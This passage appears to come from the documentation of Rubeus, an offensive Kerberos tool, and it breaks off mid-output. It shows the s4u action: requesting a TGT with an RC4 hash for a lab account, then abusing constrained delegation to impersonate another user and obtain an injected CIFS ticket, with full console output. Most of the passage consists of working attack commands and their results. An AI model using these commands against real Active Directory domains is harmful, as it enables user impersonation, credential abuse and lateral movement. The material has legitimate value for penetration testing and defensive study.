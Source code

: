 Alternatively, instead of providing a /ticket, a /user:X and either a /rc4:X or /aes256:X hash specification (/domain:X optional) can be used similarly to the **asktgt** action to first request a TGT for /user with constrained delegation configured, which is then used for the s4u exchange.

    c:\Temp\tickets>Rubeus.exe asktgt /user:patsy /domain:testlab.local /rc4:602f5c34346bc946f9ac2c0922cd9ef6

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.0.0

    [*] Action: Ask TGT

    [*] Using rc4_hmac hash: 602f5c34346bc946f9ac2c0922cd9ef6
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building AS-REQ (w/ preauth) for: 'testlab.local\patsy'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 230 bytes
    [*] Received 1377 bytes
    [*] base64(ticket.kirbi):

          doIE+jCCBPagAwIBBaE...(snip)...

    c:\Temp\tickets>Rubeus.exe s4u /ticket:C:\Temp\Tickets\patsy.kirbi /impersonateuser:dfm.a /msdsspn:ldap/primary.testlab.local /altservice:cifs /ptt

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.0.0

    [*] Action: S4U

    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building S4U2self request for: 'TESTLAB.LOCAL\patsy'
    [*]   Impersonating user 'dfm.a' to target SPN 'ldap/primary.testlab.local'
    [*]   Final ticket will be for the alternate service 'cifs'
    [*] Sending S4U2self request
    [*] Connecting to 192.168.52.100:88
    [*] Sent 1437 bytes
    [*] Received 1574 bytes
    [+] S4U2self success!
    [*] Building S4U2proxy request for service: 'ldap/primary.testlab.local'
    [*] Sending S4U2proxy request
    [*] Connecting to 192.168.52.100:88
    [*] Sent 2618 bytes
    [*] Received 1798 bytes
    [+] S4U2proxy success!
    [*] Substituting alternative service name 'cifs'
    [*] base64(ticket.kirbi):
